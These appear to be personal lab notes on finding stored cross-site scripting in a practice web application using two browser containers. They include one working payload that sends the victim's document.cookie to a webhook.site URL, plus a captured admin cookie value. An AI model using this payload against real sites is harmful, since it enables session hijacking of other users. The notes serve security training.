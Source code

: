 XSS Stored

Thursday, October 19, 2023

9:15 PM

 

<https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/>

Add to Firefox

 

Set up and name containers as many as you need

 

Visit our lab in the 2 new containers

![](012_XSS_Stored_000.png){width="5.177083333333333in" height="1.9270833333333333in"}

Can login with different accounts

 

Testing for HTML Injection

![](012_XSS_Stored_001.png){width="2.84375in" height="1.1875in"}

And we have it

![](012_XSS_Stored_002.png){width="3.6666666666666665in" height="1.5833333333333333in"}

 

This was on container 1. If we go over to container 2 and refresh and see test also we know we have stored xxs. In our case we do.

 

Second test

![](012_XSS_Stored_003.png){width="2.7916666666666665in" height="1.1145833333333333in"}

 

![](012_XSS_Stored_004.png){width="5.552083333333333in" height="2.0625in"}

 

Quick refresh on container 2 shows us we have stored

![](012_XSS_Stored_005.png){width="6.34375in" height="6.875in"}

 

 

Webhook.site can be useful for grabbing things like admin cookies

[Using Cross Site Scripting (XSS) to Steal Cookies \| Infinite Logins](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)

 

Payload for challenge

\<script\>var i =new Image;i.src=\"https://webhook.site/3a0b3524-a0d1-4a6c-ad05-d2bd02714b9f/?\"+document.cookie;\</script\>

 

Admin cookie

![](012_XSS_Stored_006.png){width="14.604166666666666in" height="4.53125in"}

5ac5355b84894ede056ab81b324c4675

 

In admin console we can type document.cookie to verify or also look in storage of dev tools.
